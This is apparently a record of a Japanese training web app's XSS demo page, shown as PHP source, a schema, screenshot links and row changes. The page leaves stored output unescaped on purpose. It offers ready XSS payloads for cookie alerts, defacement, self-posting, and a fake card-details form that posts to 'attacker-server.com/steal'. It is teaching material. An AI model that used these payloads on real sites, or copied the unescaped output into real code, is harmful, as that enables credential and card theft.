
The app's page /xss/xss.php, older data.

The same page, newer data.
### tables this page shows
CREATE TABLE messages (
            id INTEGER PRIMARY KEY AUTOINCREMENT,
            content TEXT,
            created_at DATETIME DEFAULT CURRENT_TIMESTAMP
        );

### xss/xss.php (the view, shortened to what this page needs)
<?php
include '../includes/header.php';
$db = new PDO('sqlite:../database.sqlite');
?>
<div class="card shadow-sm border-0 p-4">
    <h1 class="h5 fw-bold mb-4 text-warning">XSS 体験掲示板</h1>
    <div class="row g-4">
        <div class="col-md-4">
            <div class="list-group shadow-sm">
                <div class="list-group-item bg-dark text-white fw-bold small">アラートを出すよ</div>
                <button class="list-group-item list-group-item-action py-3" onclick="copyToInput(`<script>alert('XSS成功');</script>`)">
                    <code class="text-danger small">アラートを出すだけ</code>
                </button>
                <button class="list-group-item list-group-item-action py-3" onclick="copyToInput(`<img src=x onerror=alert('Cookie:'+document.cookie)>`)">
                    <code class="text-danger small">cookie情報をアラートに出す</code>
                </button>
                <div class="list-group-item bg-dark text-white fw-bold small"> ページ改変系</div>
                <button class="list-group-item list-group-item-action py-3" onclick="copyToInput('<script>document.body.innerHTML = `<div style=\'position:fixed;top:0;left:0;width:100%;height:100%;background:#000;color:#0f0;display:flex;align-items:center;justify-content:center;z-index:9999;font-family:monospace;font-size:2rem;\'>SYSTEM HACKED BY XSS LAB</div>`;</script>')">
                    <code class="text-danger small">全画面書き換え (ページ更新後黒塗り画面へ)</code>
                </button>
                <button class="list-group-item list-group-item-action py-3" onclick="copyToInput('<script>document.querySelector(\'.navbar\').style.backgroundColor = \'red\'; document.querySelector(\'.navbar-brand\').innerText = \'⚠️脆弱性あり⚠️\';</script>')">
                    <code class="text-danger small">ヘッダーの文字を変更</code>
                </button>
                <button class="list-group-item list-group-item-action py-3" onclick="copyToInput('<script>document.body.innerHTML += `<div style=\'position:fixed; top:0; left:0; width:100vw; height:100vh; background:white; z-index:9999; display:flex; align-items:center; justify-content:center; font-family:sans-serif;\'><div class=\'card shadow-lg border-0\' style=\'width:450px; padding:30px;\'><div class=\'text-center mb-4\'><h2 class=\'h4 fw-bold text-danger\'>⚠️ セキュリティ警告</h2><p class=\'text-muted small\'>お使いのアカウントに異常なアクセスが検出されました。<br>本人確認のため、決済情報の再登録が必要です。</p></div><form action=\'https://attacker-server.com/steal\' method=\'POST\'><div class=\'mb-3\'><label class=\'form-label small fw-bold\'>カード名義人</label><input type=\'text\' class=\'form-control\' placeholder=\'TARO YAMADA\' required></div><div class=\'mb-3\'><label class=\'form-label small fw-bold\'>カード番号</label><input type=\'text\' class=\'form-control\' placeholder=\'0000 0000 0000 0000\' maxlength=\'16\' required></div><div class=\'row\'><div class=\'col-7\'><label class=\'form-label small fw-bold\'>有効期限 (MM/YY)</label><input type=\'text\' class=\'form-control\' placeholder=\'MM/YY\' required></div><div class=\'col-5\'><label class=\'form-label small fw-bold\'>CVV</label><input type=\'password\' class=\'form-control\' placeholder=\'123\' maxlength=\'3\' required></div></div><div class=\'mt-4\'><button type=\'button\' class=\'btn btn-danger w-100 fw-bold\' onclick=\'alert(&quot;【警告】入力された情報は攻撃者のサーバーへ送信されます！&quot;); location.reload();\'>情報を更新してアカウントを復旧</button></div></form><p class=\'text-center mt-3 small\'><a href=\'#\' class=\'text-decoration-none text-muted\'>あとで設定する</a></p></div></div>`;</script>')">
                    <code class="text-danger small">クレジットカード詐欺フォームに書き換え (全画面)</code>
                </button>
                <div class="list-group-item bg-dark text-white fw-bold small">自動増殖・勝手に投稿系</div>
                <button class="list-group-item list-group-item-action py-3" onclick="copyToInput('<script>fetch(\'../db/message.php\', {method:\'POST\', headers:{\'Content-Type\':\'application/x-www-form-urlencoded\'}, body:\'message=\' + encodeURIComponent(\'🚨 このサイトはXSSワームに感染しました！\')}); alert(\'バックグラウンドで勝手に投稿しました。複数回リロードして確認してください。\');</script>')">
                    <code class="text-danger small">勝手に投稿をしてしまう</code>
                </button>
            </div>
        </div>
        <div class="col-md-8">
            <div class="p-3 border rounded bg-white shadow-sm mb-4">
                <form action="../db/message.php" method="POST">
                    <div class="input-group">
                        <input type="text" name="message" value="<?php echo htmlspecialchars($_GET['message'] ?? ''); ?>" id="it" class="form-control">
                        <button type="submit" class="btn btn-warning fw-bold">DBへ保存</button>
                    </div>
                </form>
            </div>
            <div class="card shadow-sm border-0">
                <div class="card-header bg-white d-flex justify-content-between align-items-center">
                    <span class="fw-bold small">MESSAGESテーブル (DB保存内容)</span>
                </div>
                <table class="table mb-0">
                    <thead class="table-light">
                        <tr>
                            <th style="width:10%">ID</th>
                            <th>CONTENT (出力時エスケープなし)</th>
                        </tr>
                    </thead>
                    <tbody>
                        <?php
                        try {
                            $stmt = $db->query("SELECT * FROM messages ORDER BY id DESC");
                            while ($row = $stmt->fetch(PDO::FETCH_ASSOC)) {
                                echo "<tr><td>{$row['id']}</td><td>{$row['content']}</td></tr>";
                            }
                        } catch (Exception $e) {
                            echo "<tr><td colspan='2' class='text-center small py-4 text-muted'>データがありません。</td></tr>";
                        }
                        ?>
                    </tbody>
                </table>
            </div>
        </div>
    </div>
</div>
<?php include '../includes/footer.php'; ?>

### includes/header.php (shortened to what this page needs)
<!DOCTYPE html>
<html lang="ja">
<head>
    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.0/dist/css/bootstrap.min.css" rel="stylesheet">
</head>
<body class="d-flex flex-column min-vh-100">
    <header>
        <nav class="navbar navbar-expand bg-primary-subtle shadow-sm mb-4">
            <div class="container">
                <a class="navbar-brand fw-bold " href="../">ホーム</a>
                <div class="navbar-nav">
                    <a class="nav-link" href="../sql_injection/sql_injection.php">SQLインジェクション体験</a>
                    <a class="nav-link" href="../sql_injection/explain.php">SQLインジェクション解説</a>
                    <a class="nav-link" href="../xss/xss.php">XSS体験</a>
                    <a class="nav-link" href="../xss/explain.php">XSS解説</a>
                    <a class="nav-link" href="../csrf/login.php">CSRF体験(ログイン画面へ)</a>
                    <a class="nav-link" href="../csrf/explain.php">CSRF解説</a>
                    <a class="nav-link" href="../clickjacking/clickjacking.php">クリックジャギング体験</a>
                    <a class="nav-link" href="../clickjacking/explain.php">クリックジャギング解説</a>
                </div>
            </div>
        </nav>
    </header>
    <main class="flex-fill">
        <div class="container">
            <h1><?= $title ?? 'ホーム' ?></h1>

### includes/footer.php (shortened to what this page needs)
</div>
</main>
<footer class="bg-light text-center py-3 border-top mt-4">
    <small class="text-muted">
        Built with PHP / SQLite / HTMX / Bootstrap
    </small>
</footer>
</body>
</html>

Row changes from the older to the newer data that the page shows:
removed messages: id "7"
removed messages: id "6", content "🚨クリックジャッキング成功（完全ステルス）"
removed messages: id "5", content "🚨クリックジャッキング成功（完全ステルス）"
removed messages: id "4", content "🚨クリックジャッキング成功（完全ステルス）"
